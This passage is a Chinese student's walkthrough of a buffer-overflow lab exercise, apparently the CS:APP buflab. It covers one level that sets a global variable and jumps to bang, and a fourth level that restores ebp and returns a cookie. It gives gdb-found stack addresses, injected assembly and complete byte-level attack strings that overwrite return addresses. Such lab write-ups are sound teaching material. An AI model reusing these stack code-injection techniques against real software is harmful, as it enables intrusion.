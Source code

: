 前两句实现修改global_value的值，后面将bang函数地址入栈ret指令执行就可以跳到bang函数执行了。
gdb中查看字符数组首地址，-0x28（ebp）=0x556838f8
.s文件编译反汇编内容：
b8 05 79 6a 4d
89 04 25 20 d1 04 08
68 64 8c 04 08
c3
所以攻击内容如下：
b8 05 79 6a 4d
89 04 25 20 d1 04 08
68 64 8c 04 08
c3
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00
f8 38 68 55
本关多加了一个修改一个全局变量的要求，所以就要用到包含指令的攻击字符串，当时ppt看到这部分时有点懵，因为没见过，
那些工具也每用过，就感觉很高大尚，但是看过博主的介绍，和他的使用过程，很快就上手了。

第四关：
因为不能改变原有的一些值，所以先查ebp，返回地址

```
08048c64 <bang>:
08048d6b <test>:
 8048d6b:	55                   	push   %ebp
 8048d6c:	89 e5                	mov    %esp,%ebp
 8048d6e:	53                   	push   %ebx
 8048d6f:	83 ec 14             	sub    $0x14,%esp
 8048d72:	e8 d9 ff ff ff       	call   8048d50 <uniqueval>
 8048d77:	89 45 f4             	mov    %eax,-0xc(%ebp)
 8048d7a:	e8 03 04 00 00       	call   8049182 <getbuf>
 8048d7f:	89 c3                	mov    %eax,%ebx
```

上面可以看出getbuf的返回地址是8048d77，bang函数地址：08048c64，gdb中打断点运行后查$ebp=0x55683940
构造符合题意得攻击代码.s:

```
mov $0x4d6a7905,%eax
push $0x08048d7f
ret
```

将函数返回值赋为cookie值，然后将原来得返回地址压栈，
然后就有下面得攻击内容：
b8 05 79 6a 4d
68 7f 8d 04 08
c3
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00
40 39 68 55
f8 38 68 55
